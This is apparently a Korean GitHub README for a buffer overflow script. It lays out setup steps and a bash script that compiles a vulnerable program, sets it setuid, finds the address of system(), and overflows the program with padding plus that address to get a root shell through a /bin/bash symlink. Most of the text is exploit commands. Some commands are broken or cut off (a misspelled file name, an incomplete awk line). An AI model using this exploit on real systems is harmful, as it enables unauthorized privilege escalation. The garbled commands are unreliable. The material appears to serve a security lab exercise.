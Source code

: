 # BOF_Script
this refo contains unsafe code
# 사전작업
1. 작업을 수행할 계정으로 접속합니다.
2. /home/계정 폴더로 이동합니다.
3. 깃허브에 있는 파일들을 옮깁니다.
4. 스크립트를 실행합니다.

# 스크립트
#!/bin/bash
gcc -o vuln vuln.c //vuln.c 컴파일

chmod +s vunl //권한 부여

gcc -o ./getaddr getaddr.c -lc -ldl //getaddr.c 컴파일

/bin/bash2 //bash2 실행

export PATH=$PATH:. //현재 위치 path에 추가

sysaddr=$(./getaddr) //주소 구한 뒤 저장

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" 2> arg //주소 변환하고 vuln에 인자로 넣어서 실행한 뒤 출력값 저장

xxd arg | awk '{for(i=2; i<=NF; i++) ~ //arg에서 원하는 부분 추출해 /bin/bash를 가리키는 심볼릭 링크 생성에 사용

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" //system함주 주소 대입해 vuln 실행

whoami //결과 확인
